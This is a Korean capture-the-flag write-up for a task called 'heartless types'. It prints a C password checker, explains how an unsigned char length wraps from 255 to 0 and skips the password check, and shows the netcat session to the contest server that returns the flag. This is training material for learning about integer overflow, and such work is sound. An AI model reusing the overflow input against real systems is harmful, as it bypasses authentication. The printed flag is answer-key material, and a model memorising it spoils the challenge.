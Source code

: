 ============================================================================================================
[school] heartless types
============================================================================================================

문제에 C 파일이 하나 제공되는데, flag 와 stored_pass에는 *** 라고 되어 있지만 서버에는 정상적인 문자들이 들어가 있습니다.

.. code-block:: c

    #include <stdio.h>
    #include <stdlib.h>
    #include <string.h>
     
    char stored_pass[] = "***";
    char flag[] = "***";
     
    int main()
    {
        unsigned char password_len;
        puts("Enter password len :");
        scanf("%d\n", &password_len);
        
        if (password_len == 0) {
            puts("Password can't be 0 characters long");
            return 1;
        }
     
        char *pass;
        pass = malloc((int)password_len + 1);
        int i;
        for (i = 0; i < password_len; ++i) {
            pass[i] = fgetc(stdin);
        }
        
        int stored_pass_len = strlen(stored_pass) + 1;
        ++password_len;
        int min_len = (password_len < stored_pass_len) ? password_len : stored_pass_len; <--
        for (i = 0; i < min_len; ++i) {
            if (pass[i] != stored_pass[i]) {
                puts("Wrong pass!");
                return 1;
            }
        }
        puts(flag);
        return 0;
    }


문제를 보면 사용자에게 "password 길이"를 정수로 받고, 
해당 길이 만큼 한글자씩 입력 후 stored_pass 와 같은지 비교하여 
다 맞으면 flag를 주고 하나라도 틀리면 Wrong pass! 를 출력합니다.

여기서 취약점은 min_len 에 있습니다. 

for문의 횟 수가 password_len 또는 stored_pass_len 중에 더 작은 길이를 갖는 횟 수로 돌게 되는데, 
이 때 password_len 의 타입이 unsigned char(0~255)이기 때문에 정수 오버플로우를 이용하여 
password_len을 0 으로 만들 수 있고, passwrd_len 이 0 이기 때문에 
for문은 돌지 않고 바로 flag를 출력하게 됩니다.

따라서, 입력 password length 를 255 (1바이트 갖는 최대 값)로 넣어 주고 254이상 아무 글자가
 입력하면 ++password_len 때문에 255가 1 증가 하면서 0 이 되어 for문을 돌지 않고 바로 
 puts(flag)를 하게 됩니다.


.. code-block:: console

    $ nc sibears.ru 12013

    Enter password len :
    255
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
    
    Flag is thanks_god_we_got_not_only_binaries